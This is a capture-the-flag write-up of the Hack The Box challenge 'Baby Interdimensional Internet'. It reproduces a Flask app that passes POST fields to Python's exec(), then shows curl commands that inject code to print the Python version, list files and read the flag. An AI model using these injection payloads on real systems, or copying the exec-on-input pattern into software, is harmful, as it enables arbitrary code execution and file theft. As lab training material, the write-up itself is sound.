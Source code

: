## [Baby Interdimensional Internet](https://app.hackthebox.com/challenges/147)

The target web application's index page shows a retro-esque photo of Rick Sanchez and Morty Smith from [Rick and Morty](https://en.wikipedia.org/wiki/Rick_and_Morty) along with a new integer on each load. The integer appears to be completely random, unrelated to any data from the request.

![](images/Pasted%20image%2020220313152253.png)

The page's source code contains a comment that discloses another route, `/debug`.

![](images/Pasted%20image%2020220313152427.png)

`/debug` returns the application's source code. It is a Flask application.

There are only two routes: `/` and `/debug`.

A `GET` request to `/` results in the generation of a random, 10-character string whose value is assigned to the `ingredient` variable. It then generates a random mathematical expression. The `ingredient` variable and the mathematical expression are interpolated into the `recipe` string in the format `ingredient = expression`. `recipe` is then passed into Python's [exec](https://docs.python.org/3.1/library/functions.html?highlight=exec#exec) function, which interprets and executes the string as Python code. The variable whose name is the value of the `ingredient` variable is then rendered to the user.

A `POST` request to `/` follow a similar algorithm, except `ingredient` and the mathematical expression (here called `measurements`) are read from the `POST` body. 

```python
from flask import Flask, Response, request, render_template, request
from random import choice, randint
from string import lowercase
from functools import wraps

app = Flask(__name__)

def calc(recipe):
	global garage
	garage = {}
	try: exec(recipe, garage)
	except: pass

def GCR(func): # Great Calculator of the observable universe and it's infinite timelines
	@wraps(func)
	def federation(*args, **kwargs):
		ingredient = ''.join(choice(lowercase) for _ in range(10))
		recipe = '%s = %s' % (ingredient, ''.join(map(str, [randint(1, 69), choice(['+', '-', '*']), randint(1,69)])))

		if request.method == 'POST':
			ingredient = request.form.get('ingredient', '')
			recipe = '%s = %s' % (ingredient, request.form.get('measurements', ''))

		calc(recipe)

		if garage.get(ingredient, ''):
			return render_template('index.html', calculations=garage[ingredient])

		return func(*args, **kwargs)
	return federation

@app.route('/', methods=['GET', 'POST'])
@GCR
def index():
	return render_template('index.html')

@app.route('/debug')
def debug():
	return Response(open(__file__).read(), mimetype='text/plain')

if __name__ == '__main__':
	app.run('0.0.0.0', port=1337)
```

This is vulnerable to code injection, as an attacker can define a `measurements` value that executes arbitrary Python code. If the attacker assigns the output of their command to the same variable whose name is the value of the `ingredients` variable, then the output will be rendered to the user.

Inject code to output `sys.version`, determining the application's Python version is 2.7.17.

```bash
$ curl -s -X POST http://64.227.34.91:30418/ -d 'ingredient=blah&measurements=2*2; import sys; blah = sys.version' | grep text-shadow | cut -d'>' -f2
2.7.17 (default, Jan 24 2020, 15:43:24)
```

Inject code to list the application's current directory. After decoding the HTML entities, the application's current directory contains `templates/`, `flag`, and `app.py`.

```bash
$ curl -s -X POST http://64.227.34.91:30418/ -d 'ingredient=blah&measurements=2*2; import os; blah = os.listdir(".")' | grep text-shadow | cut -d'>' -f2
[&#39;templates&#39;, &#39;flag&#39;, &#39;app.py&#39;]</h1
```

Read `flag`.

```bash
$ curl -s -X POST http://64.227.34.91:30418/ -d 'ingredient=blah&measurements=open("flag").read()' | grep text-shadow | cut -d'>' -f2
HTB{n3v3r...}
```
